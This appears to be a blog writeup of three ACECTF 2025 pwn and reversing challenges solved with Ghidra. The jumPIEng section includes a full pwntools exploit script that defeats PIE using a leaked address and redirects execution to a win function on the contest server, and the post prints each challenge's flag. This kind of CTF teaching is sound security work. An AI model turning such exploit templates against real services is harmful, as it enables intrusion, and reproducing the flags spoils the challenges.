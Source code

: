 ```yaml
---
title: "ACECTF 2025 Writeup"
pubDate: 2025-03-03
description: "This was a short and simple Indian CTF event held for 24 hours, which I joined with team HCS. I had quite some fun solving the Pwn challenges, because I got to laugh at the challenges' complexity level. A good test to my competence!"
tags:
  - ctf
  - pwn
  - ret2win
  - pie
---
```



## !Underflow

> Something simple to warm you up.

<PostFileDownload name="2025-acectf-underflow.zip" />

Given a binary called "exploit-me", we decided to decompile with Ghidra.

![Function list in Ghidra](../../images/2025/acectf-1.png)

Looking at the function list, we were curious about the `print_flag` function so we decided to take a look further.

![Flag in plaintext win function](../../images/2025/acectf-2.png)

The flag was just written in plain text: `ACECTF{buff3r_0v3rfl3w}`

## jumPIEng

> Harry, a rookie in CTFs just begun learning binary exploitation and was fascinated with how PIE works. So, he now believe that no matter how much information you have about the addresses, you cannot leak the flag from his binary because it has PIE enabled. Good luck proving him wrong.

<PostFileDownload name="2025-acectf-jumpieing.zip" />

Given a binary called "redirection", after analysing in Ghidra it looked like a PIE challenge with ret2win. We are given a main function address leak, and that is enough to get base address.

Following the PIE bypass tutorial from ir0nstone: https://ir0nstone.gitbook.io/notes/binexp/stack/pie/pie-exploit

It is enough to redirect to the win function known as `redirect_to_success`:

![Win function ret2win](../../images/2025/acectf-3.png)

The solver script is:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'redirection')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.131.133.224'
port = int(args.PORT or 12346)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

log.info(io.recvuntil("address: "))
leak = int(io.recvline().strip(), 16)
log.info(f"leak: {hex(leak)}")

exe.address = leak - exe.sym['main']
log.info(io.clean())

payload = hex(exe.sym['redirect_to_success'])
log.info(f"payload: {payload}")
io.sendline(payload)

io.interactive()
```

![Obtaining the flag](../../images/2025/acectf-4.png)

Flag : `ACECTF{57up1d_57up1d_h4rry}`

## Running Out of Time

> A mysterious program asks for a specific number, but the correct value changes every time you run it. Can you figure out how the number is generated and retrieve the hidden flag?
>
> Analyze the binary, reverse-engineer the logic, and find a way to predict the correct input to trigger the win condition.

<PostFileDownload name="2025-acectf-Running_Out_Of_Time.zip" />

Given a binary for Windows called "Running_Out_Of_Time.exe", we decided to decompile with Ghidra. Because there was no nc, it means that we definitely can just do static analysis.

![Ghidra decompile for functions](../../images/2025/acectf-5.png)

In the main function it looked like a simple RNG prediction challenge, but it looked like it just goes to a function called `p3xr9q_t1zz`, so we looked on it.

![Ghidra win function](../../images/2025/acectf-6.png)

So we were lazy to type all of the characters to decode the flag so we just opened DeepSeek:

![Deepseek decrypting](../../images/2025/acectf-7.png)

Flag: `ACECTF{71m3_570pp3d}`
